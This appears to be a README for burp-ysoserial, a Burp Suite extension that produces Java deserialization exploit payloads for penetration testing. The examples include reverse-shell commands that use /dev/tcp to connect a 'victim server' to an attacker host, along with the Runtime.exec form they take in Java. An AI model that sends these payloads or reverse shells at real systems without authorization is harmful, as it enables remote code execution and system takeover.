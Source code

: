 # burp-ysoserial - with complex command in injection support

Download the jar file here: [ysoserial.jar](https://github.com/summitt/burp-ysoserial/releases)

There are 3 ways to run this [Burp](https://portswigger.net/) extension. 

 1. Generate a payload from the YSOSERIAL Tab. You can then copy and paste it into other tabs in [Burp](https://portswigger.net/).(Not ideal)
 1. Generate a payload from the YSOSERIAL Tab. In another tab you can select the text you want to replace and right click. You have 3 options to replace.
   1. Raw - This will replace your selected text with an unencoded version of the payload. This is raw binary/hex.
   1. B64 - This payload will replace your selected text with a base64 encoded version.
   1. URLEnc - This will replace your selected text with a URL encoded and base64 encoded payload. Ideal for web type applications
 1. You can use inline commands to replace your text with a payload that contains your command. For example you can enter text in repeater like:
 
 ```$(CC1|ping -c1 8.8.8.8)```
 
 Select the above text and right click any of the Java Serialized Payload Options and it will replace your command with a payload containing that command.
 
 The first parameter before the pipe in the above statement is the verion of the exploit. You can enter any of the following:
  - CC1 or CollectionCommons1
  - CC2 or CollectionCommons2
  - GV1 or Groovy1
  - SP1 or Spring1
  
 The second parameter is obviously the OS command you wish to run.
 
## Complex Commands (i.e. pipes and I/O redirection)
Note ysoserial in this extension has been updated to accept more complicated commands that in the original. For instance commands like the following command would fail to execute on the victim server in the original ysoserial application.
 
```echo test > /tmp/text.txt```
  or
```bash -c "echo test > /tmp/text.txt"```
 
This is because to run complex commands that pipe command into other commands in java the arguments needs to be a string Array. This version of ysoserial has been modified by using a delimter of ",," to seperate your arguments to the string array.  Here is an example of running a more complicated command using this method to get a reverse shell: 
  
 ```/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1```
 
The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like:
```Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});```

##Examples
### Example 1 - Replace selected text with a pre-generated payload
1. First Generate a payload
![Payload Generator](/Payload%20Generator.png)
2. Go to Repeater and select the text you want to replace.
3. Right Click and select a payload option.
![Payload Generator](/replace%20with%20generated.png)

### Example 2 - Use and inline command
1. In [Burp](https://portswigger.net/) Repeater replace your parameter with the following code:

```$(CC1|ping -c1 8.8.8.8)```

2. Select the above text. Right Click in repeater and select the payload type.
![Payload Generator](/inline-command.png)

### Example 3 - Complex commands 
1. In Repeater replace your parameter with the following command:

```$(CC1|/bin/bash,,-c,,bash -i >& /dev/tcp/192.168.1.223/9997 0>&1)```

2. Select it and select the payload you want to generate.
![Payload Generator](/inline%20complex%20command.png)

